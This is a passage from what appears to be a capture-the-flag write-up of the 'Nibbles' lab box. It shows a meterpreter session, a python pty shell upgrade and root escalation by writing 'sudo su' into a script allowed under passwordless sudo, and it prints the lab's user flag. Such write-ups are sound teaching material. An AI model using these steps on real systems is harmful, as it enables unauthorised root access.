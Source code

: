 Now we got a meterpreter shell.<br>
user.txt is in the directory "/home/nibbler".
{% highlight shell %}
meterpreter > ls
Listing: /home/nibbler
======================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100600/rw-------  0     fil   2017-12-29 12:29:56 +0200  .bash_history
40775/rwxrwxr-x   4096  dir   2017-12-11 05:04:04 +0200  .nano
100400/r--------  1855  fil   2017-12-11 05:07:21 +0200  personal.zip
100400/r--------  33    fil   2017-12-11 05:35:21 +0200  user.txt

meterpreter > cat user.txt
b02ff32bb332deba49eeaed21152c8d8
{% endhighlight %}

### 3. Getting Root

Currently, we have a meterpreter shell.<br>
To do more enumeration, obtain a full shell like following.
{% highlight shell %}
meterpreter > shell
Process 1716 created.
Channel 1 created.

which python
which python3
/usr/bin/python3
python3 -c 'import pty;pty.spawn("/bin/bash")'
nibbler@Nibbles:/home/nibbler$
{% endhighlight %}

By the command "sudo -l", we can find that nibbler can run "/home/nibbler/personal/stuff/monitor.sh" as sudo with no password.
{% highlight shell %}
nibbler@Nibbles:/home/nibbler$ sudo -l
sudo -l

sudo: unable to resolve host Nibbles: Connection timed out
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
{% endhighlight %}

Then, create the file "/home/nibbler/personal/stuff/monitor.sh" with content to spawn root shell.
{% highlight shell %}
nibbler@Nibbles:/home/nibbler$ mkdir -p /home/nibbler/personal/stuff/
mkdir -p /home/nibbler/personal/stuff/
{% endhighlight %}
{% highlight shell %}
nibbler@Nibbles:/home/nibbler/personal/stuff$ echo "sudo su" > monitor.sh
echo "sudo su" > monitor.sh

nibbler@Nibbles:/home/nibbler/personal/stuff$ chmod +x monitor.sh
chmod +x monitor.sh
{% endhighlight %}
